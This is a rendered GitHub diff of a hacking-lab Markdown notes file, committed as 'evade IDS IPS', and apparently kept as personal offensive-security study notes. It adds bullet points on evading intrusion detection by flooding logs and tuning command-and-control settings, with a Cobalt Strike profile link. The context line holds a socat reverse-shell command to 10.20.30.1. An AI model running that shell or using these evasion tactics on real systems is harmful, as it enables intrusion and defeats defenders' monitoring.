

Before and after one commit to Bruno-Macedo/hacklab, a Markdown page: 3_Network.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
evade IDS IPS

```diff
--- a/3_Network.md
+++ b/3_Network.md
@@ -370,5 +370,18 @@ socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash
   - base64
   - urlencode
   - [Cyberchef](https://icyberchef.com/)
-- Encrypt
-  -
+- DoS
+  - legitim traffic = overload capacitiy
+  - not-malicious traffic, that goes to log
+- C2: change settings
+  - User-Agent
+  - sleep-time
+  - jitter = randomness to sleep time
+  - ssl certificate
+  - DNS beacon
+  - [Cobalt Guideline](https://github.com/bigb0sss/RedTeam-OffensiveSecurity/blob/master/01-CobaltStrike/malleable_C2_profile/CS4.0_guideline.profile)
+- NGNIPS
+  - context awareness
+  - application layer
+  - content awareness
+  - agile engine
```
Also changed, not shown: 1_Linux.md (+6 -0 lines).
